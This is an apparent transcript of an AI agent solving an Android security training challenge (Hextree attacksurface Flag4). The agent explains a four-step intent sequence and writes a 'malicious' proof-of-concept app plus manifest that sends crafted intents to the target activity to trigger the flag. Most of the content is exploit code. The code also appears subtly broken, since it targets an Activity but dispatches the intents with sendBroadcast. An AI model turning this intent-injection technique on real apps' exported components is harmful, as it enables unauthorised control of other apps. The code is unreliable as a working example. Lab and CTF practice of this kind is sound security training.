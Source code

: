 1.  **INIT:** Initial state. `PREPARE_ACTION` transitions to `PREPARE`.
2.  **PREPARE:** `BUILD_ACTION` transitions to `BUILD`.
3.  **BUILD:** `GET_FLAG_ACTION` transitions to `GET_FLAG`.
4.  **GET_FLAG:** *Any* action transitions to `REVERT`, calls `success(this)`, and logs "solved".
5.  **REVERT:** `INIT_ACTION` transitions to `INIT`.

The goal is to reach the `GET_FLAG` state and then send *any* intent to trigger the `success` method.

Here's the attack chain:

1.  Send `PREPARE_ACTION` to transition from `INIT` to `PREPARE`.
2.  Send `BUILD_ACTION` to transition from `PREPARE` to `BUILD`.
3.  Send `GET_FLAG_ACTION` to transition from `BUILD` to `GET_FLAG`.
4.  Send a final, arbitrary intent (e.g., with an empty action) to transition from `GET_FLAG` to `REVERT` and trigger the flag.

Now, I will craft a malicious Android application to send these intents. I'll create two files: `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`.


Function Call: id=None args={'file_path': 'MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousflag4poc;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Step 1: Send PREPARE_ACTION\n        sendAction(PREPARE_ACTION);\n\n        // Step 2: Send BUILD_ACTION\n        sendAction(BUILD_ACTION);\n\n        // Step 3: Send GET_FLAG_ACTION\n        sendAction(GET_FLAG_ACTION);\n\n        // Step 4: Send a final intent to trigger the flag\n        sendAction(""); // Empty action\n\n        Log.i("MaliciousFlag4PoC", "Intents sent");\n        finish(); // Close the activity after sending intents\n    }\n\n    private void sendAction(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.i("MaliciousFlag4PoC", "Sent action: " + action);\n    }\n}\n'} name='write_to_file'
----------
Role: tool
Function Call: None
----------
Role: model
Function Call: id=None args={'file_path': 'AndroidManifest_PoC.xml', 'content': '<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousflag4poc">\n\n    <application\n        android:allowBackup="true"\n        android:icon="@mipmap/ic_launcher"\n        android:label="@string/app_name"\n        android:roundIcon="@mipmap/ic_launcher_round"\n        android:supportsRtl="true"\n        android:theme="@style/Theme.MyApplication">\n        <activity\n            android:name=".MaliciousFlag4PoC"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n\n</manifest>'} name='write_to_file'
----------
Role: tool
Function Call: None
----------
